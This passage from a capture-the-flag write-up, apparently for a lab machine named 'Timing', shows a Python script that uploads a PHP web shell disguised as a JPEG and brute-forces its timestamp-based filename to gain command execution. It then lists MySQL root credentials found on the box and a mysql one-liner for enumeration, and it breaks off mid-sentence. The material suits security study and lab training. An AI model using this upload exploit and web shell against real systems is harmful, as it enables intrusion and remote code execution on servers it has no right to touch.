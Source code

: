 ```python
#!/usr/bin/env python3
import requests
import time
import hashlib

IP = "timing.htb"
PHPSESSID = "gce7q6752ufiafcghda2n782lr" #Your PHPSESSID

files = {
    "fileToUpload": (
        f"test.jpg", 
        b"<?php system($_GET[cmd]);?>", 
        "application/php", 
        {"Expires": "0"},
    )
}

timestamp = int(time.time())
req = requests.post("http://" + IP + "/upload.php", files=files, cookies={
    "PHPSESSID": PHPSESSID
})

for i in range(timestamp - 5, timestamp + 5):
    fname = hashlib.md5(("$file_hash"+str(i)).encode()).hexdigest() + "_test.jpg"
    req = requests.get("http://" + IP + "/images/uploads/" + fname)

    if req.status_code != 404:
        print("[*] Gotta file uploaded!")
        print("[*] RCE: http://" + IP + "/image.php?img=images/uploads/" + fname + "&cmd=init")
    else:
        print("[-] Exploit failed")
```

{{< figure src="images/Untitled%209.png">}}

{{< figure src="images/Untitled%2010.png">}}

I will use [webwrap](https://github.com/mxrch/webwrap) to get a quick *shell* *like*

{{< figure src="images/Untitled%2011.png">}}

{{< figure src="images/Untitled%2012.png">}}

Found mysql credentails.

`root:4_V3Ry_l0000n9_p422w0rd`

Let’s enumerate the box with mysql oneliners as we are not able to get reverse shell. Nor login with that password as aaron in ssh.

{{< figure src="images/Untitled%2013.png">}}

`mysql -uroot -p"4_V3Ry_l0000n9_p422w0rd" -D app -e "show tables;"`

Found backups directory in `/opt` after extracting I found it had git. after comparing the `diff`
